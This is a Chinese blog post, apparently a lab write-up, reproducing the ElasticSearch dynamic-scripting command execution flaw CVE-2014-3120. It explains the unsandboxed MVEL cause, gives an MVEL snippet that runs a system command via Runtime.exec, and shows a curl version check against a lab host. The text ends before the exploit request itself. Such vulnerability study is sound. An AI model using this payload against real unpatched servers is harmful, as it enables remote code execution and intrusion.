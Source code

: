 ```yaml
---
title: 	ElasticSearch命令执行漏洞复现
date: 2019-07-03 16:01:28
categories: 中间件漏洞
tags: 漏洞复现

---
```

<blockquote class="blockquote-center">只有自己强大优秀，面对真挚的感情时才不会唯唯诺诺。</blockquote>
<div class="aplayer" data-id="26418130" data-server="netease" data-type="song" data-mode="single"></div>
# ElasticSearch 命令执行漏洞（CVE-2014-3120）

## 漏洞简介:

Elasticsearch是一个高度可扩展的开源全文搜索和分析引擎。它允许您快速，近实时地存储，搜索和分析大量数据。它通常用作底层引擎/技术，为具有复杂搜索功能和要求的应用程序提供支持。

ElasticSearch其有脚本执行(scripting)的功能，可以很方便地对查询出来的数据再加工处理。但其用的脚本引擎是MVEL，这个引擎没有做任何的防护，或者沙盒包装，所以直接可以执行任意代码。

而在ElasticSearch里，默认配置是打开动态脚本功能的，因此用户可以直接通过http请求，执行任意代码。

其实官方是清楚这个漏洞的，在文档里有说明：

```
First, you should not run Elasticsearch as the root user, as this would allow a script to access or do anything on your server, without limitations. Second, you should not expose Elasticsearch directly to users, but instead have a proxy application inbetween.

首先,不应以 root 用户身份运行 Elasticsearch,因为这将允许脚本访问或执行服务器上的任何操作,不受限制。其次,不应直接向用户公开弹性搜索,而应在中间有一个代理应用程序。
```

MVEL执行命令的代码如下：

```
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

## 影响版本:

ElasticSearch 1.2及其之前的版本

## 漏洞复现:

首先判断其目标系统存在elasticsearch,其版本为1.1.1

```
[root@localhost ~]# curl http://192.168.15.130:9200
{
  "status" : 200,
  "name" : "Jack of Hearts",
  "version" : {
    "number" : "1.1.1",
    "build_hash" : "f1585f096d3f3985e73456debdc1a0745f512bbc",
    "build_timestamp" : "2014-04-16T14:27:12Z",
    "build_snapshot" : false,
    "lucene_version" : "4.7"
  },
  "tagline" : "You Know, for Search"
}
```
